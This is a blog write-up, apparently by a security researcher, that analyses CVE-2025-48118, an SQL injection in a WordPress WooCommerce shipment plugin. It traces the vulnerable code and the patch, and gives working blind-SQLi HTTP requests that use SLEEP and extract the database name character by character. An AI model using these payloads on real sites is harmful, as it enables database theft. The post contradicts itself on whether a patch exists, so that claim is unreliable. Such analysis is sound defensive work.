





# CVE-2025-48118 Analysis & POC


<!--more-->

The vulnerability occurs in the **Woocommerce Partial Shipment** plugin for WordPress prior to version **3.3**.  
It allows attackers to directly interact with the database, potentially leading to data theft and other attacks.

- **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)  
- **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)  
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 3.2  
- **CVSS Severity**: High (8.5)  
- **Required Privilege**: Subscriber  

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
- **Woocommerce Partial Shipment**: v3.2 (vulnerable) and v3.3 (patched)
- **Diff Tool**: **meld** or any comparison tool to view differences between versions
- **Activated WooCommerce Plugin**: must be **activated** before installing **Woocommerce Partial Shipment Plugin**, since several WooCommerce functions are used.

## Analysis
The root cause lies in directly injecting **POST** request data into an SQL query without proper sanitization or validation.

### Patch Diff
Use any diff tool to compare the vulnerable and patched versions.  
A significant difference appears in **wc-partial-shipment/woocommerce-partial-shipment.php**.

However, since the developer made many changes, locating the vulnerable line can be difficult.

> In WordPress, for SQLi to occur, the application must interact with the database using the global variable `$wpdb`.  
> Searching for this keyword inside **wc-partial-shipment/woocommerce-partial-shipment.php** helps identify possible sinks.



`get_shipment_id` and `get_wxp_shipment_data` are two functions in the **WXP_Partial_Shipment** class that directly insert user input into SQL queries without validation, making them vulnerable to SQL Injection.



The patch uses `$wpdb->prepare()` to safely construct SQL queries instead of **direct string concatenation** with user input.  
This ensures all values are **properly escaped** before being inserted into the SQL query, effectively mitigating SQL Injection risks.

### How it works
Both `get_shipment_id` and `get_wxp_shipment_data` are called by the function `wxp_order_set_shipped` within the same class.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
````

👉 The `order_id` parameter is taken directly from the **POST request**, making it user-controlled and allowing it to be passed into vulnerable SQL queries within `get_shipment_id` and `get_wxp_shipment_data`.

To find where `wxp_order_set_shipped` is called, search for the keyword `wxp_order_set_shipped` inside the plugin directory.



`wxp_order_set_shipped` is registered in the class constructor as a callback for the `wp_ajax_wxp_order_set_shipped` hook, meaning it can be triggered by authenticated users.

👉 Accessing `/wp-admin/admin-ajax.php` with the parameters:

```http
action=wxp_order_set_shipped&order_id=payload_here
```

will trigger the following:

* The callback `wxp_order_set_shipped` executes.
* `order_id` is taken directly from the request and inserted into SQL queries.
* The query executes twice due to its usage in two separate SQL calls containing the malicious payload.

## Exploit

### Detecting SQLi

Send a **POST request** containing an SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

This results in the query:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Because the query executes twice, the response time doubles.



A **subquery in the FROM clause** is used because MySQL treats it as a temporary table.
The subquery executes once to create the temporary table, and the main query runs afterward.
This ensures the `SLEEP` function runs only once instead of being multiplied across multiple comparisons.

For example, using the following payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

The response time increases exponentially.



### Extracting the First Letter of the Database Name

The first step in data extraction is confirming at least one character of the **database name** — once retrieved, the rest can be dumped easily.

Send a request with the following **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first letter of the **database name**, and `IF()` triggers `SLEEP(5)` if it equals `0x77` ('w').

Hex encoding (`0x77`) is used for `'w'` because the `order_id` parameter, being a **POST** value, is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) and `sanitize_text_field` in WordPress.

👉 Based on the delayed response, we confirm that the first character is `'w'`.

## Conclusion

The **CVE-2025-48118** vulnerability in the WordPress **Woocommerce Partial Shipment** plugin (versions before 3.3) originates from directly inserting unsanitized user input into SQL queries, resulting in a **SQL Injection** vulnerability.

No official patch has been released at the time of writing.

**Key Takeaways:**

* Always validate and sanitize user input.
* Use `$wpdb->prepare()` for database operations in WordPress to prevent SQL Injection.
* Keep plugins updated and perform regular security audits to avoid being an attack target.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-29-cve-2025-48118/  

